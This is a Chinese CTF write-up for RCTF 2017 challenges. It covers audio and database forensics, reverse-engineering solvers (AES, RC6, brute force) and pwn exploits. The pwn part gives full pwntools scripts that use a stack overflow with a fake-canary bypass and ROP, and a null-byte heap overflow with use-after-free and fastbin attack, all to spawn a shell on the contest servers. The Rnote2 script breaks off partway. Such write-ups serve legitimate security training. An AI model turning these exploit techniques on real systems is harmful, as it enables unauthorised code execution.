# Dubhe write up

> author : wangym5106、wmzhere、bluecake、aftern00n

# Misc

## intoU

音频末尾有一段奇怪的声音，查看频谱得到flag



## mysql

数据恢复，然而直接 strings 就找到了flag




# Web

## rBlog

代码中大部分是用于生成 feed 的，根据提示得知文章被删除。到 feedly 上订阅博客即可从缓存中找到flag




# Reverse

## actually_cpp

使用 ffdec 反编译 ActionScript，找到关键的 MyCPP.check。发现使用了 flacc 将 C(++) 转到了 Flash 上运行。反编译的代码，读起来类似于汇编，直接分析。

大体上在栈中分配了 key 和 iv，并且通过 brainfuck 将 key 做了变换。最后使用 TinyAES 将输入加密，与预设值比对。

先使用 bftoc.py 将 brainfuck 转换为 C，然后有

```python
from Crypto.Cipher import AES
from binascii import hexlify
import struct

KEY = struct.pack('<llll', -1993905352, -1182021347, 2108577555, -536244034)
IV = struct.pack('<llll', 50462976, 117835012, 185207048, 252579084)
RET = b'\xd5\x18\x61\x03\x1e\x1c\x95\x3a\x62\xc2\x93\x8b\x39\x62\x35\xb1\xf3\x64\x94\x2f\x33\x95\x42\x23\xd3\x6c\x26\x88\xab\x2a\x3f\x47\x94\x28\xb4\x46\xa5\x09\x04\x21\xac\x1f\x82\xba\xb4\xb3\x28\x4e\xc0\xbc\xef\x53\xfc\x43\x31\x5c\xda\x7c\x83\xd0\xfa\x90\xb5\x9f'

KEY = bytearray(KEY)
KEY[5] += 5
KEY[1] -= 5
KEY[4] += 2
KEY = bytes(KEY)

print('key', len(KEY), hexlify(KEY))
print('iv', len(IV), hexlify(IV))
print('ret', len(RET), hexlify(RET))
print('ret', RET)


AES_OBJ = AES.new(KEY, AES.MODE_CBC, IV)
print(AES_OBJ.decrypt(RET))
```

发现结果还是不正确，生成的 hash 有非 0-9A-F 的字符。换个思路，直接解密。使用 ffdec 修改 ActionScript 字节码，使得原先的调用 `encrypt(out, key, iv, input, input_len)` 变为 `decrypt(out, key, iv, cmp_str, 64)`。这时将修改的 Flash 直接运行，输入任意字串即得到答案。

修改后的 swf 见附件。函数的详细分析见附件。

## easy_re

strace 发现程序写入了一个新的 ELF，但是没有 execve 就已经 unlink 并退出。使用 gdb 对 0x8048499 下断点，到 unlink 前就立即退出程序。得到新的 ELF 文件 child。

IDA 载入 child，发现主程序通过管道向子程序写入了字符串，但是子程序先期待 pid 然后才使用字符串解密。于是将 IDA 的解密函数抠出来，直接用 C++ 胡搞即可。

```c++
#include <iostream>
using namespace std;

char buf[] = "69800876143568214356928753\0\0";

void lol(char *str)
{
  char s[8]; // [sp+15h] [bp-13h]@1

  s[0] = 2 * str[1];
  s[1] = str[4] + str[5];
  s[2] = str[8] + str[9];
  s[3] = 2 * str[12];
  s[4] = str[18] + str[17];
  s[5] = str[10] + str[21];
  s[6] = str[9] + str[25];
  puts(s);
}

int main() {
  lol(buf);
  return 0;
}
```

IDB 见附件。

## HelloDalvik

使用 jadx-gui 反编译 classes.dex。算法是每三个字符一组，进行一些神奇的变换，然后比较结果与预设值。其中神奇的变换是使用了 MathMethod 类。

运行程序，使用 GDB dump 内存中的 dex (dump.dex)。直接拖到 jadx-gui，报错。bcompare dump.dex 和 classes.dex，发现头部被修改了，多了一些字节。删除，生成 new.dex，此时可以反编译，但是大量代码失效。可能 Dex 的头没有恢复正确。

IDA JNI 部分，发现程序做了一些简单的解密(见 dec.py)。找到了 MathMethod1 和 MathMethod4 以及他们的 signature。正好，这些方法都在 new.dex 中正确反编译了！

变换比较复杂，难以逆推答案。但因为只有三个字节，可以暴力。（见 dec.cc）最终找到一系列值：

```
    2S1 6F50D5057EFB2B9411C1B237E7D8588D
    Qql 98DD67FE3789D499AB3AF3CD1055EB76
    mql 98DD67FE3789D499AB3AF3CD1055EB76
    Y9i 10556D767F835C91A9B2BBCF98DDE4FE
    e9i 10556D767F835C91A9B2BBCF98DDE4FE
    f_o 72AD4A98C3603EE1865407ACFA25C210
```

有两个输入同时对应了一个 hash，这样的情况出现了两次，所以总共有四种 hash 是可能的：

```
    RCTF{2S1QqlY9if_o}
    RCTF{2S1mqlY9if_o}
    RCTF{2S1Qqle9if_o}
    RCTF{2S1mqle9if_o}
```

逐个尝试，最终发现最后一个是答案

## INeedAWaiter

寻找字符串，根据 `throw new TypeError("Generator is already executing.");` 找到 TypeScript 的文档 https://github.com/Microsoft/tslib/blob/master/docs/generator.md 。附件提供了注释后的程序。

开始分析。在 535 行的主函数，进行了如下的变换：

1. 将输入字符串转换为 ascii
2. 将 ascii 数组做 rot13
3. 将 rot13 数组加上序列 -1 2 -3 4 ... 的结果求和，作为 n0
4. 使用 n0 生成一个线性同余的随机数生成器 fn: n = (123 * n + 59) % 65536
5. 将加密函数的输入 (key) 的 ASCII 做 sleep sort，计算排序结果的索引 index。然后使用 index 打乱 rot13 数组。
6. 使用 fn xor 打乱的数组生成 new_arr
7. 在 new_arr 最后添加 n0 xor 66
8. 将 new_arr 转换为十六进制

解密过程参见附件的 dec.py

## baby_flash

类似于 actually_cpp，程序将输入与预设值比较。但是使用的 strcmp 是魔改后的。strcmp 生成类似于兔子数列的一个数列，每逢这个数列中的索引就跳过比较。因此直接将 strcmp 的输入 dump 出来当作答案是不行的。

strcmp 的详细分析见附件。

## uwp

各种 unzip 后找到 .Net 二进制。Refactor 反编译。程序使用 LINQ 和 Lambda 搞的很复杂，但是逻辑就是从 Sqlite 中读取输入文本框序号对应的值，很简单。

然后找加密部分。程序使用 FamilyName 的前 16 字节作为 key, 0000000000000000 作为 IV，对 base64 解码后的数据库中的值以 CBC 方法做 AES 解密。

key 如何获得？Google 告诉我，PowerShell 的 Get-AppxPackage 可以读到。问题解决。函数的详细分析见附件，解密过程见附件。

## MyDriver

驱动用内联挂钩劫持了 NtCreateFile。没有用 DPC 处理多核，有可能蓝屏，差评！劫持函数里看了看打开的文件是不是包含预设字串，如果是就将计数器加一。当计数器超过 7 时，就打开文件并写入另一个预设字串。

写函数解密这两个函数。然后不用加载驱动，就拿到了 flag。这时才在 IDA 的 hex view 中发现了明文的文件字串和提升信息。原本不用逆的，心痛。

解密过程见附件。

## crackme

这是个MFC的程序，关键函数为`sub_403210`。

获取用户输入：




将输入拷贝到变量里面（unicode字符），并且对输入作变换：



然后将变换后的输入跟内置数据比较：



这题的关键地方就是对输入做的变换，函数是`sub_401340`，一开始可以看到12组字符串，先对前8组字符串分别作md5值：



同样又求后四组字符串的md5值：



然后用前8组md5值和输入作参数，传递给函数`sub_401040`：



该函数运行过后，输入会有变化，然后再把输入跟后四组字符串的md5值异或：



函数`sub_401040`其实是做了RC6加密，Google搜一下函数里的常量值`0x5BF76637`就可以看到（http://webcache.googleusercontent.com/search?q=cache:iMqTMnspPxsJ:www.fobwaimao.com/thread-213714.htm+&cd=1&hl=en&ct=clnk&gl=us），然后根据网上的代码改一下，就可以求出flag，有个地方注意一下，网上的代码里是调换前5个比特与后27个比特，而程序里是调换前8个比特与后24个比特，脚本如下：

```c++
#include <Windows.h>
#include <stdio.h>

typedef struct _context
{
    unsigned int unkonwn1;
    unsigned int *sn;
    int len;
    unsigned int key_a;
    unsigned int key_b;
    unsigned int key_table[32];
    unsigned int key_d;
    unsigned int key_e;
}context;

unsigned int shrl(unsigned int a1, char a2)
{
    return (a1 << a2) | (a1 >> (32 - a2));
}

unsigned int __stdcall inner_log(int a1)
{
    return (unsigned int)(a1 << (32 - (unsigned __int64)(signed __int64)(5))) >> (32- (unsigned __int64)(signed __int64)(5));
}

unsigned int shlr(unsigned int a1, char a2)
{
    return (a1 >> a2) | (a1 << (32 - a2));
}


unsigned char data[] = {
202, 244, 96, 22, 220, 183, 47, 113, 61, 234, 125, 243, 200, 46, 168, 23, 
46, 58, 71, 206, 51, 133, 227, 16, 79, 177, 133, 93, 135, 176, 5, 132, 
252, 202, 143, 137, 244, 54, 23, 189, 225, 141, 241, 137, 91, 63, 55, 228, 
39, 38, 239, 209, 106, 223, 177, 218, 240, 99, 4, 143, 215, 121, 80, 34, 
77, 212, 102, 208, 225, 224, 204, 18, 58, 251, 229, 4, 218, 36, 98, 202, 
51, 197, 212, 149, 77, 168, 129, 129, 68, 32, 243, 186, 57, 119, 38, 68, 
247, 189, 97, 107, 108, 132, 29, 37, 56, 115, 95, 118, 209, 224, 43, 87, 
27, 194, 155, 54, 246, 35, 186, 130, 170, 246, 114, 79, 211, 177, 103, 24};

void encrypt(context *ctx, bool encrypt)
{
    int *cur_dword; // esi@2
    unsigned int *tmp_key; // ebx@2
    int fourth_dword; // eax@3
    unsigned int v10; // ST28_4@3
    unsigned int v14; // eax@3
    bool v18; // zf@3
    signed int block_size; // [sp+24h] [bp-Ch]@2
    unsigned int offset = 0;

    if (ctx->len)
    {
        if (encrypt)
        {
            do
            {
                cur_dword = (int *)((unsigned char*)ctx->sn + offset);
                tmp_key = &ctx->key_table[31];
                block_size = 16;
                *cur_dword -= ctx->key_d;
                cur_dword[2] -= ctx->key_e;
                do
                {
                    fourth_dword = cur_dword[3];
                    cur_dword[3] = cur_dword[2];
                    cur_dword[2] = cur_dword[1];
                    cur_dword[1] = *cur_dword; 
                    *cur_dword = fourth_dword; 

                    v10 = shrl(cur_dword[1] * (2 * cur_dword[1] + 1), 8); //调换前8个比特与后24个比特
                    v14 = shrl((DWORD)cur_dword[3] * (2 * (DWORD)(cur_dword[3]) + 1), 8);
                    
                    *cur_dword = v10 ^ shlr(*cur_dword - *(tmp_key - 1), inner_log(v14));
                    cur_dword[2] = ((DWORD)v14) ^ shlr(cur_dword[2] - *tmp_key, inner_log(v10));;

                    tmp_key -= 2;
                    v18 = block_size-- == 1;                    
                } while (!v18);

                offset += 16;
                cur_dword[1] -= ctx->key_a;
                cur_dword[3] -= ctx->key_b;
            } while (offset < ctx->len);
        }
        else
        {
            do
            {
                cur_dword = (int *)((unsigned char*)ctx->sn + offset);
                tmp_key = &ctx->key_table[-1];
                block_size = 16;

                cur_dword[1] += ctx->key_a;
                cur_dword[3] += ctx->key_b;

                do
                {
                    tmp_key += 2;

                    v10 = shrl(cur_dword[1] * (2 * cur_dword[1] + 1), 8); //调换前8个比特与后24个比特
                    v14 = shrl((DWORD)cur_dword[3] * (2 * (DWORD)(cur_dword[3]) + 1), 8);

                    int y = *cur_dword ^v10;
                    int x = shrl(y, inner_log(v14));
                    *cur_dword = x + *(tmp_key - 1);

                    int n = cur_dword[2] ^ ((DWORD)v14);
                    int m = shrl(n, inner_log(v10));
                    cur_dword[2] = m + *tmp_key;

                    fourth_dword = *cur_dword;
                    *cur_dword = cur_dword[1];
                    cur_dword[1] = cur_dword[2];
                    cur_dword[2] = cur_dword[3];
                    cur_dword[3] = fourth_dword;

                    v18 = block_size-- == 1;
                } while (!v18);

                *cur_dword += ctx->key_d;
                cur_dword[2] += ctx->key_e;

                offset += 16;

            } while (offset < ctx->len);
        }
    }
}

char sn[64] = "11111111111111111111111111111111";

unsigned char g_data[64] = {243, 56, 159, 56, 241, 33, 111, 152, 99, 239, 107, 106, 185, 26, 56, 181, 116, 137, 164, 250, 121, 22, 144, 200, 113, 46, 201, 99, 13, 223, 111, 77, 114, 127, 192, 105, 61, 118, 63, 238, 201, 35, 52, 118, 45, 183, 28, 56, 120, 247, 197, 41, 106, 19, 12, 188, 94, 179, 174, 182, 98, 188, 10, 56}; 

int main(int argc, char* argv[])
{
	int i;
    context ctx = { 0 };
    ctx.sn = (unsigned int*)sn;
    ctx.len = 64;
    ctx.key_a = 0x5bf76637;
    ctx.key_b = 0x4748da7a;
    memcpy(ctx.key_table, data, 4 * 32);
    ctx.key_d = 0x7faf076d;
    ctx.key_e = 0x9bd7fa4c;
    encrypt(&ctx, 1);
    encrypt(&ctx, 0);

    ctx.sn = (unsigned int*)g_data;
    for(i=0;i<64;i++)
    	printf("%x ",*((unsigned char *)ctx.sn+i));
    printf("\n\n");
    encrypt(&ctx, 0);
    for(i=0;i<64;i++)
    	printf("%02x",*((unsigned char *)ctx.sn+i));
    return 0;
}
```

运行得到结果：570065006c0063006f006d006500200074006f002000720063007400660032003000310037002c0020006e0069006300650020006400610079002e0000000000

unicode的字符编码，转换成字符：Welcome to rctf2017, nice day.

输入到注册机里：




# Pwn

## Rcalc

程序入口

```
Input your name pls: 124sdf
Hello 124sdf!
Welcome to RCTF 2017!!!
Let's try our smart calculator
What do you want to do?
1.Add
2.Sub
3.Mod
4.Multi
5.Exit
Your choice:
```

看一下代码

```c
__int64 main_1()
{
  ...
  printf("Input your name pls: ");
  __isoc99_scanf((__int64)"%s", (__int64)&name);// 可以溢出
  ...
  return result;
}
```

在主函数中调用了scanf("%s", &name)来获取输入，很明显，这是一个栈溢出。但是程序中实现了一个伪canary保护，所以需要先突破这个防护

```c
__int64 main_1()
{
  __int64 result; // rax@1
  char name; // [sp+0h] [bp-110h]@1
  __int64 v2; // [sp+108h] [bp-8h]@1  //v2在栈的底部，栈溢出会将其覆盖

  v2 = init_random();
  ...
  result = get_random();
  if ( result != v2 ) 
    sub_400BD4(); //发现栈溢出，退出程序
  return result;
}
```

注意一下save_result功能：它会将两个数字相加的结果保存在bss段上，但是并没有进行边界检测

```c
__int64 __fastcall save_result(__int64 a1)
{
  __int64 cal_results_list; // rsi@1
  __int64 count; // rdx@1
  __int64 result; // rax@1

  cal_results_list = *((_QWORD *)cal_results + 1);
  count = (*(_QWORD *)cal_results)++;
  result = a1;
  *(_QWORD *)(cal_results_list + 8 * count) = a1;
  return result;
}
```

来看一下bss中的数据布局

```
.bss:06020F0 ; #3 *cal_result
.bss:06020F0 cal_result               
.bss:06020F0                                    
.bss:06020F8 ; #3 *randoms
.bss:06020F8 randoms    
.bss:06020F8     
```

 很明显，在经历有限次的save_result后就可以覆盖randoms数据，那么只要和栈溢出的数据做一个匹配，就可以顺利地执行ROP操作了。完整的脚本如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *


local = False
debug = True
slog = True

if slog: context.log_level = "debug"

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc-2.24.so')
else:
    libc = ELF('./libc.so.6')

def pwn():
    if local: 
        p = process('./RCalc')
    else:
        p = remote('rcalc.2017.teamrois.cn', 2333)

    p.recvuntil('name pls:')

    pop_rdi = 0x401123
    pop_rsi_r15 = 0x401121
    pattern = 0x401203
    bss = 0x602100

    scanf_plt = 0x4008e0
    printf_plt = 0x400850  
    __libc_start_main_ptr = 0x601ff0

    main_start = 0x401036

    payload = 'a'*8*33 + p64(1) + 'b'*8
    payload += p64(pop_rdi) + p64(pattern) + p64(pop_rsi_r15) + p64(bss) + p64(0) + p64(scanf_plt)
    payload += p64(pop_rdi) + p64(pattern) + p64(pop_rsi_r15) + p64(__libc_start_main_ptr) + p64(0) + p64(printf_plt)
    payload += p64(main_start)


    p.sendline(payload)

    def add(num1, num2, is_save=True):
        p.recvuntil('choice:')
        p.sendline('1')
        p.recvuntil('integer:')
        p.sendline(str(num1))
        p.sendline(str(num2))
        p.recvuntil('result?')
        if is_save:
            p.sendline('yes')
        else:
            p.sendline('no')

    def exit():
        p.recvuntil('choice:')
        p.sendline('5')

    for i in range(34):
        add(i+1, i+1)
    add(0, 1)
    #gdb.attach(p, open('debug'))
    exit()
    p.sendline('/bin/sh\x00')
    __libc_start_main_addr = u64(p.recvn(6) + "\x00\x00")
    print("__libc_start_main_addr is " + hex(__libc_start_main_addr))

    system_addr = __libc_start_main_addr + libc.symbols['system'] - libc.symbols['__libc_start_main']     
    print("system addr is " + hex(system_addr))

    p.recvuntil('name pls:')
    payload = 'a'*8*33 + p64(1) + 'b'*8
    payload += p64(pop_rdi) + p64(bss) + p64(system_addr) 
    p.sendline(payload)

    for i in range(34):
        add(i+1, i+1)
    add(0, 1)
    if local and debug: gdb.attach(p, open('debug'))
    exit()

    p.interactive()


if __name__ == '__main__':
    pwn()
```

## Rnote

程序入口

```python
welcome to RNote service!
***********************
1.Add new note
2.Delete a note
3.Show a note
4.Exit
***********************
Your choice: 
```

本题的主要问题出在readn功能中，这里存在一个null-byte溢出

```c
__int64 __fastcall readn(__int64 a1, unsigned int a2)
{
  for ( i = 0; i <= (signed int)a2; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(_BYTE *)(a1 + i) = buf;
    if ( *(_BYTE *)(i + a1) == '\n' )
    {
      *(_BYTE *)(i + a1) = 0;
      return (unsigned int)i;
    }
  }
  return (unsigned int)i;
}
```

通过溢出后可以修改指针

```tex
0x6020e0:	0xe000000001	0x61616161
0x6020f0:	0x0	0xff7010
0x602100:	0xa000000001	0x62626262
0x602110:	0x0	0xff7100
0x602120:	0x1000000001	0x6363636363636363
0x602130:	0x6363636363636363	0xff7100 //null-byte溢出导致指针指向第一个堆块
```

事实上，这个时候就可以触发UAF泄露libc地址。讲道理到这里已经可以通过修改stdout指针去拿shell了，然而试了很久也没有成功，果断换个方法：先控制main_arena的top指针，使其指向atoi_got，最后再分配一块不在fastbin列表中的内存就可以控制atoi函数了。完整的脚本如下：

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

local = 0
slog = 1

if slog: context.log_level = "debug"

def pwn():
    if local:
        p = process("./RNote")
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('rnote.2017.teamrois.cn', 7777)
        libc = ELF('./libc.so.6')

    def add(size, title, content):
        p.recvuntil("choice:")
        p.sendline('1')
        p.recvuntil('size:')
        p.sendline(str(size))
        p.recvuntil('title:')
        p.sendline(title)
        p.recvuntil('content:')
        p.sendline(content)

    def show(index):
        p.recvuntil("choice:")
        p.sendline('3')
        p.recvuntil('show:')
        p.sendline(str(index))
       
    def delete(index):
        p.recvuntil("choice:")
        p.sendline('2')
        p.recvuntil('delete:')
        p.sendline(str(index))

    add(0xe0, 'aaaa', 'bbbb')
    add(0xa0, 'bbbb', 'dddd')
    add(0x10, 'c'*0x10, 'dddd')
    add(0x60, 'dddd', 'dddd')
    add(0x60, 'dddd', 'dddd')
    delete(1)
    
    add(0x60, 'dddd', 'eeee')
    delete(4)
    delete(1)

    show(2)
    p.recvuntil('content: ')

    heap_base = u64(p.recvn(8)) - 0x230
    print("heap_base is "+ hex(heap_base))

    main_arena = u64(p.recvn(8)) - 248
    print('main_arena addr is ' + hex(main_arena))
    
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook']
    print('libc_base is ' + hex(libc_base))

    system_addr = libc_base + libc.symbols['system']
    print("system addr is " + hex(system_addr))

    delete(3)
    delete(2)

    fake_fastbin = libc_base + libc.symbols['_IO_2_1_stderr_'] + 165 - 8

    add(0x60, 'dddd', p64(0x60))
    add(0x60, 'dddd', 'eeee')
    add(0x60, 'dddd', 'eeee')

    #add(0x60, 'dddd', 'a'*0x26 + p64(0xdeadbeaf))
    #add(0x60, 'dddd', 'a'*0x13)

    add(0x40, 'dddd', 'eeee')
    add(0x50, 'dddd', 'eeee')
    add(0x50, 'd'*0x10, 'eeee')
    add(0x50, 'dddd', 'eeee')

    delete(5)
    delete(7)
    delete(6)

    fake_fastbin = libc_base + libc.symbols['_IO_2_1_stdout_'] + 165 - 8

    add(0x50, 'dddd', p64(main_arena + 0x28))
    add(0x50, 'dddd', 'eeee')
    add(0x50, 'dddd', 'eeee')
    #gdb.attach(p, open('debug'))
    add(0x50, 'dddd', p64(0) * 4 + p64(0x602058)) 

    add(0x40, 'dddd', p64(system_addr))
    p.sendline('/bin/sh')
    p.interactive()

if __name__ == '__main__':
    pwn()
```


## Rnote2

程序入口

```python
welcome to RNote service!
***********************
1.Add new note
2.Delete a note
3.List all note
4.Edit a note
5.Expand a note
6.Exit
***********************
Your choice:
```

主要关注两个函数

第一个函数在输入结束后没有添加\0结束符

```c
__int64 __fastcall readn(__int64 a1, unsigned int a2)
{
  char buf; // [sp+1Bh] [bp-5h]@2
  int i; // [sp+1Ch] [bp-4h]@1

  for ( i = 0; i < (signed int)a2; ++i )
  {
    if ( read(0, &buf, 1uLL) <= 0 )
      break;
    *(_BYTE *)(a1 + i) = buf;
    if ( *(_BYTE *)(i + a1) == 0xA ) 
      break;
  }
  return (unsigned int)i;
}
```

另外一个函数是expand功能里面

```c
__int64 expand()
{
  ...
  if ( (signed __int64)(signed int)v3 + ptr->length > 256 ) //长度判断
  {
    puts("Too big!");
    exit(1);
  }
  ptr->content = realloc(ptr->content, (signed int)v3 + ptr->length); 
  ... 
  strncat((char *)ptr->content, &s, (signed int)(v3 - 1));  
  ...
}
```

在正常情况下，这段代码并不会出现问题。但是存在一个问题，如果我们在释放一个非fastbin的堆块后，这个堆块的bck和fwd指针都会变成main_arena中的bins的地址。

```
0x55f53cdb8000:	0x0	0x31
0x55f53cdb8010:	0x0	0x100
0x55f53cdb8020:	0x55f53cdb8150	0x55f53b977080
0x55f53cdb8030:	0x55f53cdb8040	0x111
0x55f53cdb8040:	0x7f2e69217b58 <main_arena+88>	0x7f2e69217b58 <main_arena+88>
```

此时，如果申请一个字节的块，内容为一个回车符，堆块就会变成这个样子

```
0x563ba85af030:	0x563ba85af040	0x21
0x563ba85af040:	0x7fbdfc61bc0a[回车符] <main_arena+266>	0x7fbdfc61bc58 <main_arena+344>
0x563ba85af050:	0xa	0xf1
```

这个时候如果调用list功能，就已经可以泄露libc地址了。那么在泄露完之后，我们还得想办法控制EIP。注意下面这行代码

```c
strncat((char *)ptr->content, &s, (signed int)(v3 - 1));  
```

那么，在上一步中，我们只申请了一个字节的堆块，长么对应的ptr->length = 1，那么只要扩充后的长度不超过堆块大小，这个时候调用strcat就有可能导致堆溢出

```
0x5606b8b19040:	0x62627f0d6cec9c0a	0x6262626262626262
0x5606b8b19050:	0x6262626262626262	0x51 //堆块大小被修改成了0x51
0x5606b8b19060:	0x0	0x60
0x5606b8b19070:	0x0	0x5606b8b19010
```

通过修改堆块大小我们就可以构造heap overlap，再下一步就是fastbin attack了，籍此可将realloc修改成system函数，那么在触发expand时就可以get shell。完整的代码如下

```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 1
local = 0

if slog: context.log_level = 'debug'

def add(length, content):
    p.recvuntil('choice:')
    p.sendline('1')
    p.recvuntil('length:')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)

def delete(index):
    p.recvuntil('choice:')
    p.sendline('2')
    p.recvuntil('delete?')
    p.sendline(str(index))

def list():
    p.recvuntil('choice:')
    p.sendline('3')

def edit():
    p.recvuntil('choice:')
    p.sendline('4')
    p.recvuntil('edit?')
    p.sendline(str(index))
    p.recvuntil('content:')
    p.sendline(content)

def expand(index, expand_length, expand_content):
    p.recvuntil('choice:')
    p.sendline('5')
    p.recvuntil('expand?')
    p.sendline(str(index))
    p.recvuntil('expand?')
    p.sendline(str(expand_length))
    p.recvuntil('expand')
    p.sendline(expand_content)

if local:
    p = process('./RNote2')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('rnote2.2017.teamrois.cn', 6666)
    libc = ELF('./libc.so.6')

add(0x100, 'a'*0x10)
add(0x10, 'b'*0xf)
delete(1)
add(1, '')
list()

p.recvuntil('content: ')
p.recvuntil('content: ')
main_arena = u64(p.recvn(6) + '\x00\x00') - 0x10a
print('main_arena is ' + hex(main_arena))

if local:
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook']
else:
    libc_base = main_arena - 0x10 - libc.symbols['__malloc_hook'] + 0x20
print('libc base is ' + hex(libc_base))

